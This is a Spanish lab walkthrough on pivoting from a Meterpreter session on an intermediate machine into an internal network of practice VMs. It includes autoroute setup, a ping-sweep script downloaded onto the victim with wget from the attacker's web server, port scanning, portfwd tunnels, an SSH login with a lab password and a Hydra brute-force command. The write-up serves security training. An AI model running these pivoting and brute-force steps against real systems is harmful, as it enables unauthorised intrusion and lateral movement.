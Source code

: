 Maquinas que vamos a utilizar **Kali Linux , Friendly y Basic.**

  

[https://hackmyvm.eu/machines/machine.php?vm=Friendly](https://hackmyvm.eu/machines/machine.php?vm=Friendly)

[VulNyx | Offensive Security Playground](https://vulnyx.com/#basic)

  

> [!important] **Seguimos donde lo dejamos desde donde lo dejamos en la sesión de meterpreter que habíamos conseguido de la maquina intermedia.**

  

- Miramos las interfaces de red que tenemos disponibles
    
    `ifconfig`
    
    ![[Imagenes/image 64.png|image 64.png]]
    
    Nos encontramos con la interface donde nos encontramos **10.0.3.21/24** y una nueva interface **10.10.10.6/24.**
    
      
    
- Hacemos un **Background** para dejar la sesión en segundo plano.
    
    `CTRL+Z`
    
    ![[Imagenes/image 1 53.png|image 1 53.png]]
    

- Miramos el numero de ID de sesión.
    
    `sessions -l`
    
    ![[Imagenes/image 2 52.png|image 2 52.png]]
    

  

- En rutamos el trafico con el modulo **/multi/manage/autoroute** y completamos los datos que nos pida y ejecutamos.
    
    `use /multi/manage/autoroute`
    
    `show options`
    
    `set SESSION 2`
    
    `show options`
    
    ![[Imagenes/image 3 51.png|image 3 51.png]]
    
      
    
    `run`
    
    ![[Imagenes/image 4 48.png|image 4 48.png]]
    
      
    
- Vamos a verlo
    
    `route`
    
    ![[Imagenes/image 5 47.png|image 5 47.png]]
    
      
    

- **Metasploit tiene muchos módulos para escaneo de las redes** pero d**an muchos errores**. En una terminal nueva vamos a hacer es **hacer un script y ejecutarlo dentro de la maquina victima**.
    
    `nano escaner.sh`
    
    ```Bash
    #! /bin/bash
    
    for i in {1..255}; do
        timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
        if [ $? -eq 0 ]; then
            echo "El host 10.10.10.$i está activo"
        fi
    done
    ```
    
    > [!important] **Abría que adaptarlo a cada red interna que descubrir.**
    
    ![[Imagenes/image 6 44.png|image 6 44.png]]
    
- Levantamos un servidor web con Python.
    
    ```Bash
    python3 -m http.server 80
    ```
    
    ![[Imagenes/image 7 42.png|image 7 42.png]]
    
      
    
    - **En metasploit entramos en la sesión** que teníamos **abierta** en la maquina intermedia.
        
        `sessions -l`
        
        `sessions -i 2`
        
        ![[Imagenes/image 8 40.png|image 8 40.png]]
        

- Lanzamos una **shell para ejecutar comandos de Linux** ya que nos vamos a descargar dentro de la maquina intermedia el script que habíamos creado.
    
    `shell`
    
    `ls`
    
    `wget 10.0.3.4/escaner.sh`
    
    `l`
    
    ![[Imagenes/image 9 37.png|image 9 37.png]]
    
      
    
- Le damos el **permisos de ejecución y lo ejecutamos**.
    
    `chmod +x escaner.sh`
    
    `./escaner.sh`
    
    ![[Imagenes/image 10 33.png|image 10 33.png]]
    
    La IPs 10.10.10.1 y 10.10.10.2 van a ser puertas de enlace. las demás tendríamos que hace escaneos.
    
    Para ahorrar tiempo la IP que nos interesa es la 10.10.10.7. **Ya tenemos nuestra IP objetivo.**
    
    **CTRL+C** para parar el escaneo y hacemos un Background con **CTRL+Z**
    
    `CTRL+C`
    
    `CTRL+Z`
    
    ![[Imagenes/image 11 27.png|image 11 27.png]]
    
      
    
- Vamos a utilizar otro modulo para **hacer un escaneo de puertos**. **scanner/portscan/tcp .**
    
    `use scanner/portscan/tcp`
    
    ![[Imagenes/image 12 27.png|image 12 27.png]]
    
      
    
- Miramos las opciones. las completamos y ejecutamos el modulo.
    
    `show options`
    
    `set RHOST 10.10.10.7`
    
    `set PORTS 1-12500` → **Dependería del rango de puertos que queremos escanear**.
    
    ![[Imagenes/image 13 25.png|image 13 25.png]]
    
      
    
    `run`
    
    ![[Imagenes/image 14 23.png|image 14 23.png]]
    

  

---

  

  

- Vamos a atacar el **puerto 22** por lo tanto vamos hacer **port fowarding o reenvió de puertos** trayendo el puerto a puerto de mi maquina local. para ello debemos hacerlo en meterpreter.
    
    `sessions -l`
    
    `sessions -i 2`
    
    `portfwd add -l 222 -p 22 -r 10.10.10.7`
    
      
    
    > [!important] `portfwd add` → Agrega una nueva regla de reenvío de puertos.
    > 
    > `l 222` → Especifica el puerto local en el sistema atacante donde se escuchará la conexión.
    > 
    > `p 22` → Especifica el puerto de destino en la máquina remota (en este caso, el puerto SSH).
    > 
    > `r 10.10.10.7` → Especifica la dirección IP del sistema remoto al que se redirigirán las conexiones.
    > 
    > Este comando crea un túnel desde el sistema atacante, permitiendo que cualquier conexión al puerto `222` en la máquina atacante sea redirigida al puerto `22` en `10.10.10.7`. Esto permite al atacante conectarse de manera indirecta a la máquina objetivo a través de su propia máquina.
    
      
    
    ![[Imagenes/image 15 20.png|image 15 20.png]]
    
      
    

- **Accedemos al puerto 22 de la maquina victima final**. En nuestra Kali abrimos un terminal y entramos por SSH.
    
    > [!important] Recordemos que esta maquina ya la habíamos hecho y que el **usuario** es **dimitri** y la **contraseña** es **mememe.**
    
      
    
    `ssh` `dimitri@127.0.0.1` `-p 222`
    
      
    
    > [!important] `ssh` → Es el cliente SSH que se utiliza para conectarse de forma segura a otro sistema.
    > 
    > `dimitri@127.0.0.1` → Indica que el usuario `dimitri` quiere conectarse a la dirección IP `127.0.0.1`, que representa la máquina local (localhost).
    > 
    > `p 222` → Especifica que la conexión debe hacerse usando el puerto `222` que es donde hemos hecho el reenvio en lugar del puerto por defecto de SSH (`22`).
    
      
    
    ![[Imagenes/image 16 17.png|image 16 17.png]]
    
      
    
- Si por ejemplo quisiera hacer aquí un ataque con hydra a este puerto seria asi:
    
    ```Bash
    hydra -l dimitri -P /usr/share/wordlists/rockyou.txt -t 4 ssh://127.0.0.1 -s 222
    ```
    
      
    
    ---
    
      
    
    - Vamos a atacar el **puerto 631** por lo tanto vamos hacer **port fowarding o reenvió de puertos** trayendo el puerto a puerto de mi maquina local. para ello debemos hacerlo en meterpreter.
        
        `portfwd add -l 5000 -p 631 -r 10.10.10.7`
        
        ![[Imagenes/image 17 14.png|image 17 14.png]]
        
          
        
- Como es Sabemos por un ejercicio anterior que es un servicio web abrimos un navegador web y escribimos 127.0.0.1:5000.
    
    `http://127.0.0.1:5000/`
    
    ![[Imagenes/image 18 12.png|image 18 12.png]]